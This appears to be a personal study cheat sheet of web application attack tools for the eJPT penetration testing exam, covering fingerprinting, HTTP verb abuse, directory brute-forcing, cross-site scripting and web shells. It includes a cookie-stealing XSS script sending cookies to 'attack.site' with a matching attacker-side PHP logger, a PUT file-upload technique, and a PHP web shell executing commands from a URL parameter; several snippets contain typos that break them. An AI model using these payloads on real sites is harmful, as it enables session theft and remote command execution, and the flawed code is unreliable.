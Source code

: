 # Web Application Tools
 My list of Web Application tools for the eJPT exam.

-------------------------------------

## *HTTP Protocol and Fingerprinting*

1. Netcat
    * nc [targetAddress] 80

2. OpenSSL s_client -connect [targetAddress:443]

3. httprint -P0 -h [targetAddress] -s /usr/share/httprint/signatures.txt

-------------------------------------

## *HTTP Verbs - Use in Burpsuite*

### (Can be used on misconfigured web servers)

- GET - Request a webpage
- HEAD - Request Header information
- POST - Post form data (eg, username, password)
- PUT - Create an arbitrary file on the server
- DELETE - Delete/remove file from the server
- OPTIONS - Check communications option

"GET" Example:

    GET /page.php?comman=pwd HTTP/1.1
    Host: www.host.com


"POST" Example:

    POST /login.php? HTTP/1.1
    Host: www.host.com


    username=admin&password=1234


"DELETE" Example:

    DELETE /wp-content/imp.file HTTP/1.1
    Host: www.host.com

"PUT" Example: 
    
    $wc -m payload.php
    20 payload.php

    $nc [targetAddress] 80
    PUT /payload.php HTTP/1.0
    Content-type: text/html
    Content-length: 20


    <?php phpinfo(); ?>

-------------------------------------

## *Dirbuster(GUI)/Gobuster/Dirb*

* Search for interesting file types
    * php
    * txt
    * bak
    * old

    $gobuster dir --url http://host.com/ -w /path/to/word.list -x php,txt,old,bak -o output.txt

    $dirb http://host.com/ /path/to/word.list -X php,txt,bak,old -o output.txt

    $dirb https://host.com/ (Simple SSL test)

*Tips: Searh for **Signup pages** and **old configuration files.***

-------------------------------------

## Cross-Site Scripting

* Session Cookies
    * document.cookie - This is where the cookies are stored

    *Display cookie as an alert*
    ``` 
    [<script>alert(document.cookie)</script>]
    ```
    *Victim's Browser*
    ```
    <script>
    var i = newImage();
    i.scr="http://attack.site/log.php?="+document.cookie;
    </script>
    ```

    *Attacker's Computer*
    ```
    <?php
    $filename="/tmp/log.txt;
    $fp=fopen($filename, 'a');
    $cookie=$_GET['q'];
    fwrite($fp, $cookie);
    fclose($fp);
    ?>
    ```









-------------------------------------

## *Reverse Shell Links*

[Pentest Monkey Website] (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[GTFOBins Website] (https://gtfobins.github.io/)


Example PHP Reverse Shell:

    <?php 
    if (isset($_GET['cmd']))
    {
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
    }
    >

